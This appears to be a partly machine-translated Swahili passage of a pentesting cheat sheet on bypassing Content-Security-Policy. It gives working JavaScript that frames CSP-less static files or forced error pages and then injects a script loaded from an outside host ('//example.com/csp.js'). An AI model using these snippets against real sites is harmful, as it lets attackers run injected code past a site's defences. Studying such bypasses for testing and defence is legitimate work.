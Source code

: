 A configuration such as:
```
Content-Security-Policy: default-src 'self' 'unsafe-inline';
```
Inakataza matumizi ya kazi zozote zinazotekeleza msimbo uliotumwa kama mfuatano. Kwa mfano: `eval, setTimeout, setInterval` zote zitazuiliwa kwa sababu ya mipangilio ya `unsafe-eval`

Maudhui yoyote kutoka vyanzo vya nje pia yanazuiliwa, ikiwa ni pamoja na picha, CSS, WebSockets, na, hasa, JS

### Kupitia Maandishi & Picha

Imek observed kwamba vivinjari vya kisasa vinabadilisha picha na maandiko kuwa HTML ili kuboresha uonyeshaji wao (kwa mfano, kuweka mandharinyuma, kuzingatia, n.k.). Kwa hivyo, ikiwa picha au faili ya maandiko, kama `favicon.ico` au `robots.txt`, itafunguliwa kupitia `iframe`, inatolewa kama HTML. Kwa kuzingatia, kurasa hizi mara nyingi hazina vichwa vya CSP na zinaweza kutokuwa na X-Frame-Options, ikiruhusu utekelezaji wa JavaScript isiyo na mpangilio kutoka kwao:
```javascript
frame = document.createElement("iframe")
frame.src = "/css/bootstrap.min.css"
document.body.appendChild(frame)
script = document.createElement("script")
script.src = "//example.com/csp.js"
window.frames[0].document.head.appendChild(script)
```
### Makosa ya Via

Vivyo hivyo, majibu ya makosa, kama vile faili za maandiko au picha, kwa kawaida yanakuja bila vichwa vya CSP na yanaweza kukosa X-Frame-Options. Makosa yanaweza kusababisha kupakia ndani ya iframe, kuruhusu hatua zifuatazo:
```javascript
// Inducing an nginx error
frame = document.createElement("iframe")
frame.src = "/%2e%2e%2f"
document.body.appendChild(frame)

// Triggering an error with a long URL
frame = document.createElement("iframe")
frame.src = "/" + "A".repeat(20000)
document.body.appendChild(frame)

// Generating an error via extensive cookies
for (var i = 0; i < 5; i++) {
document.cookie = i + "=" + "a".repeat(4000)
}
frame = document.createElement("iframe")
frame.src = "/"
document.body.appendChild(frame)
// Removal of cookies is crucial post-execution
for (var i = 0; i < 5; i++) {
document.cookie = i + "="
}
```
Baada ya kuanzisha mojawapo ya hali zilizotajwa, utekelezaji wa JavaScript ndani ya iframe unaweza kupatikana kama ifuatavyo:
```javascript
script = document.createElement("script")
script.src = "//example.com/csp.js"
window.frames[0].document.head.appendChild(script)
```
## Marejeo

- [https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/](https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/)

{{#include ../../banners/hacktricks-training.md}}
